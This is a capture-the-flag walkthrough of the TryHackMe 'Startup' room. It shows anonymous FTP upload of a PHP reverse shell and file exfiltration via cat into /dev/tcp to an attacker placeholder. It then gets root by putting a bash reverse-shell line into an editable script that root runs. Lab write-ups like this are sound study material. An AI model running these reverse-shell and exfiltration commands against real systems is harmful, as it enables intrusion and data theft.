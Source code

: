 # TryHackMe - IDE

[Room link](https://tryhackme.com/room/startup)

---

## Enumeration

Nmap :

```bash
[...]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:B5:E9:5D:9D:5F (Unknown)
```

---

### FTP 
---

Let(s try to connect us to the ftp servica as anonymous user.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

That works. 

```bash
ftp> get .test.log
ftp> get important.jpg
ftp> get notice.txt
```

After reading this files, there is no important things in there. Let's moving on the web service on the 80 port.

---

### HTTP 80

There is not interresting things on the default page. We will scan the web content directory of this website with dirb tool.

```bash
$ dirb http://10.10.1.159/
[...]
==> DIRECTORY: http://10.10.1.159/files/
+ http://10.10.1.159/index.html (CODE:200|SIZE:808)                          
+ http://10.10.1.159/server-status (CODE:403|SIZE:276) 
```

The files in the files directory seems the same on the ftp. 

---

## Exploitation

Let's try to upload a reverse shell on the ftp service.

```bash
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (124.7497 MB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Jan 03 17:56 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          5494 Jan 03 17:56 php-reverse-shell.php
226 Directory send OK.

```

We can't upload a file on the root of the ftp but we can on the "ftp" directory. Don't forget to set up the nc listenner and activate this file on the http://<target_ip>/files/

```bash
Connection from 10.10.1.159 44792 received!
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:58:59 up 19 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

We received a connection !

---

### Secret food flag

```bash
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was ****.
```

## User flag

After stabilized our shell, let's look on the root server directory. There is a strange directory named "incidents" with a pcap file named "

```bash
www-data@startup:/$ ls -l
total 92
drwxr-xr-x   2 root     root      4096 Sep 25  2020 bin
drwxr-xr-x   3 root     root      4096 Sep 25  2020 boot
drwxr-xr-x  16 root     root      3560 Jan  3 17:39 dev
drwxr-xr-x  96 root     root      4096 Nov 12  2020 etc
drwxr-xr-x   3 root     root      4096 Nov 12  2020 home
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
[...]
www-data@startup:/incidents$ ls -l
total 32
-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

We need to download this file for analyzes it with wireshark. Let's download it via nc listenner.

On the attacker machine :

```bash
$ nc -lnvp 1235 > file.pcap
```

On the target machine :

```bash
$ bash -c 'cat suspicious.pcapng > /dev/tcp/<attacker_ip>/1235'
```

Let's dive into the sequence 7 of the TCP stream on the pcap file and show the TCP stream, we can see a strange string.

Let's try to connect on the user lennie with this password.

That works !

```bash
www-data@startup:/incidents$ su lennie -
Password: 
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
lennie@startup:/incidents$
```

The user flag is in the lennie's home directory on the user.txt file.

---

## Root flag

On the lennie's home directory, we can see a script called planner.sh

```bash
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

After reading, the script will execute /etc/print.sh script and this file is editable by lennie.
The next step is to set up a nc will initilized a connection. 

On the attacker machine :

```bash
nc -lnvp 1235
```

On the target machine, add this lines into /etc/print.sh :

```bash
bash -c 'exec bash -i &>/dev/tcp/<attack_ip>/1235 <&1'
```

Right now, we are root !

Then, get the root flag on /root/root.txt
